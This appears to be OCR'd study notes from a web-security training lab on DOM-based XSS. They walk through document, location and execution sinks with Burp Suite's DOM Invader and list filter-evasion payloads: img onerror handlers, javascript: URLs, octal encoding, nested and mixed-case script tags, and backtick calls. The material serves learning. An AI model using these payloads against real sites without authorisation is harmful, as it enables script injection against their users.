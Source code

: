 o	asdf</h1><Base+Href=//X55.is>

3.	DOM XSS (Document Object Mode XSS)
•	Exercise 25 Injection in Javascript DOM – Document Sink
o	In this case it’s a DOM based XSS, When we change the value, it’s not reflecting in source code, but it is reflecting on Front end.
o	Using BurpSuit, Open Proxy> Open Browser> target.com
o	In the Burp Suite Chromium Extension Turn On DOM Invader Settings. Put any keyword that we are checking “asdf” and Update canary.
o	In the Inspect(F12), Click last tab DOM Invader, It will show us where the value getting reflected, here it’s in element.innerHTML, it’s on the HTML, not inside anything so we can directly put payload in the URL.
o	asdf<img src=x onerror=confirm(1)>
o	asdf<img src onerror=alert(1)>
•	Exercise 26 Injection in Javascript DOM – Location Sink
o	It is similar case of Ex 21 but DOM XSS
o	So whenever you get a URL redirection, whenever you provide any link in any of the parameter and it just to redirects you to that link, if your values reflected in the source code, then you can work them easily but it's not reflecting, but its redirecting then you can put this script.
o	javascript:alert(1)
•	Exercise 27 Injection in Javascript DOM – Execution Sink
o	In this case it is getting reflected but this time it's not inside the document where we can directly execute the code right, so it is inside the event.
o	eval is used to evaluate the things in the JavaScript.
	eval(function)=result
•	eval(1+2)=3
•	eval(‘Hi’+’there’)= Hi there
o	Go to Source tab and search, to find where is the eval
	eval('n.p=' + p27.toLowerCase());
o	alert(1) can put directly in URL to get exploit.
•	Exercise 30 Filtered Injection in Javascript DOM – Document Sink
o	It is similarly Ex.25 reflected inside element.innerHTML 
o	So we need to encode payload and put in the URL
o	asdf<img src=x onerror=confirm(1)>
o	asdf<img src onerror=alert(1)>
o	use BurpSuite Decoder or use CyberChef
	<img src=x onerror=confirm(1)> Encode into Octal
	74 151 155 147 40 163 162 143 75 170 40 157 156 145 162 162 157 162 75 143 157 156 146 151 162 155 50 61 51 76
	And replace all spaces with \ and put \ in beginning 
	\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\143\157\156\146\151\162\155\50\61\51\76
	And paste into URL
4.	More Tips of XSS
1.	<script>alert(l)</script>  alert(1)
•	If <script> tag is filtered and showing alert(1) output only then use this
•	<scr<script>ipt>alert(l)</scr</script>ipt>
o	So server’s code will filter <script> part and again our payload will execute.
o	<script>alert(l)</script>
2.	<script>alert(l)</script>
•	If they are using Regx + filtering ‘script’ then you can use
o	<SCRIPT>alert(l)</ SCRIPT>
o	<ScRIpT>alert(l)</sCrIPT>
3.	If the alert(1) is block, then use
•	alert()
•	confirm()
•	prompt()
•	print()
4.	If the () are blacklisted, then use
•	`` (backticks)
o	alert``
